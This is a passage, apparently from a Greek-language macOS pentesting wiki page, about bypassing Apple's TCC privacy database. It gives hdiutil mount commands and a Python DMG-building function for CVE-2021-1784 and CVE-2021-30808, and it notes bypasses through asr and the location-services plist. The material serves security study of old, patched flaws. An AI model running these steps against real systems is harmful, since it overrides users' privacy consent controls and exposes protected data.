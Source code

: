```bash

# Access it
ls /tmp/snap/Users/admin_user # This will work
```
{% endcode %}

Μια πιο λεπτομερής εξήγηση μπορεί να βρεθεί [**στην αρχική αναφορά**](https://theevilbit.github.io/posts/cve\_2020\_9771/)**.**

### CVE-2021-1784 & CVE-2021-30808 - Τοποθέτηση πάνω από το αρχείο TCC

Ακόμα κι αν το αρχείο TCC DB είναι προστατευμένο, ήταν δυνατό να **τοποθετηθεί πάνω στον κατάλογο** ένα νέο αρχείο TCC.db:
```bash
# CVE-2021-1784
## Mount over Library/Application\ Support/com.apple.TCC
hdiutil attach -owners off -mountpoint Library/Application\ Support/com.apple.TCC test.dmg

# CVE-2021-1784
## Mount over ~/Library
hdiutil attach -readonly -owners off -mountpoint ~/Library /tmp/tmp.dmg
```
{% endcode %}
```python
# This was the python function to create the dmg
def create_dmg():
os.system("hdiutil create /tmp/tmp.dmg -size 2m -ov -volname \"tccbypass\" -fs APFS 1>/dev/null")
os.system("mkdir /tmp/mnt")
os.system("hdiutil attach -owners off -mountpoint /tmp/mnt /tmp/tmp.dmg 1>/dev/null")
os.system("mkdir -p /tmp/mnt/Application\ Support/com.apple.TCC/")
os.system("cp /tmp/TCC.db /tmp/mnt/Application\ Support/com.apple.TCC/TCC.db")
os.system("hdiutil detach /tmp/mnt 1>/dev/null")
```
Ελέγξτε τον **πλήρη εκμεταλλευτή** στο [**αρχικό άρθρο**](https://theevilbit.github.io/posts/cve-2021-30808/).

### asr

Το εργαλείο **`/usr/sbin/asr`** επέτρεπε την αντιγραφή ολόκληρου του δίσκου και την τοποθέτησή του σε άλλη θέση παρακάμπτοντας τις προστασίες TCC.

### Υπηρεσίες τοποθεσίας

Υπάρχει μια τρίτη βάση δεδομένων TCC στο **`/var/db/locationd/clients.plist`** για να υποδεικνύει τους πελάτες που επιτρέπεται να **έχουν πρόσβαση στις υπηρεσίες τοποθεσίας**.\
Ο φάκελος **`/var/db/locationd/` δεν ήταν προστατευμένος από την τοποθέτηση DMG** οπότε ήταν δυνατή η τοποθέτηση του δικού μας plist.

## Μέσω εφαρμογών εκκίνησης

{% content-ref url="../../../../macos-auto-start-locations.md" %}
[macos-auto-start-locations.md](../../../../macos-auto-start-locations.md)
{% endcontent-ref %}
